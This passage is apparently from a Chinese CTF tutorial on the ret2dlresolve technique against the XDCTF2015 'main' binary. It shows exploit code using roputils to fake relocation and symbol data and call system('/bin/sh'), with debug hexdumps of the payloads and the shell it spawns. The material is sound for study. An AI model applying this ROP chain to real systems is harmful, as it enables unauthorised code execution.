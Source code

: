 ```python
buf += rop.dl_resolve_call(bss_base + 20, bss_base)
r.send(buf)

buf = rop.string('/bin/sh')
buf += rop.fill(20, buf)
# used to make faking data, such relocation, Symbol, Str
buf += rop.dl_resolve_data(bss_base + 20, 'system')
buf += rop.fill(100, buf)
r.send(buf)
r.interactive()
```

关于dl_resolve_call与dl_resolve_data的具体细节请参考roputils.py的源码，比较容易理解，需要注意的是，dl_resolve执行完之后也是需要有对应的返回地址的。

效果如下

```shell
➜  ret2dlresolve git:(master) ✗ python roptool.py                       
[+] Starting local process './main': pid 6114
[DEBUG] Received 0x17 bytes:
    'Welcome to XDCTF2015~!\n'
[DEBUG] Sent 0x94 bytes:
    00000000  46 4c 68 78  52 36 67 6e  65 47 53 58  71 77 51 49  │FLhx│R6gn│eGSX│qwQI│
    00000010  32 43 6c 49  77 76 51 33  47 49 4a 59  50 74 6c 38  │2ClI│wvQ3│GIJY│Ptl8│
    00000020  57 54 68 4a  63 48 39 62  46 55 52 58  50 73 38 64  │WThJ│cH9b│FURX│Ps8d│
    00000030  72 4c 38 63  50 79 37 73  55 45 7a 32  6f 59 5a 42  │rL8c│Py7s│UEz2│oYZB│
    00000040  76 59 32 43  74 75 77 6f  70 56 61 44  6a 73 35 6b  │vY2C│tuwo│pVaD│js5k│
    00000050  41 77 78 77  49 72 7a 49  70 4d 31 67  52 6f 44 6f  │Awxw│IrzI│pM1g│RoDo│
    00000060  43 44 43 6e  45 31 50 48  53 73 64 30  6d 54 7a 5a  │CDCn│E1PH│Ssd0│mTzZ│
    00000070  a0 83 04 08  19 86 04 08  00 00 00 00  40 a0 04 08  │····│····│····│@···│
    00000080  64 00 00 00  80 83 04 08  28 1d 00 00  79 83 04 08  │d···│····│(···│y···│
    00000090  40 a0 04 08                                         │@···││
    00000094
[DEBUG] Sent 0x64 bytes:
    00000000  2f 62 69 6e  2f 73 68 00  73 52 46 66  57 43 59 52  │/bin│/sh·│sRFf│WCYR│
    00000010  66 4c 35 52  78 49 4c 53  54 a0 04 08  07 e9 01 00  │fL5R│xILS│T···│····│
    00000020  6e 6b 45 32  52 76 73 6c  00 1e 00 00  00 00 00 00  │nkE2│Rvsl│····│····│
    00000030  00 00 00 00  12 00 00 00  73 79 73 74  65 6d 00 74  │····│····│syst│em·t│
    00000040  5a 4f 4e 6c  6c 73 4b 5a  76 53 48 6e  38 37 49 47  │ZONl│lsKZ│vSHn│87IG│
    00000050  69 49 52 6c  50 44 38 67  45 77 75 6c  72 47 6f 67  │iIRl│PD8g│Ewul│rGog│
    00000060  55 41 52 4f                                         │UARO││
    00000064
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0x8d bytes:
    'core\t     main    roptool.py   roputils.pyc\tstage2.py  stage4.py  stage6.py\n'
    '__init__.py  main.c  roputils.py  stage1.py\tstage3.py  stage5.py\n'
core         main    roptool.py   roputils.pyc    stage2.py  stage4.py  stage6.py
__init__.py  main.c  roputils.py  stage1.py    stage3.py  stage5.py

```
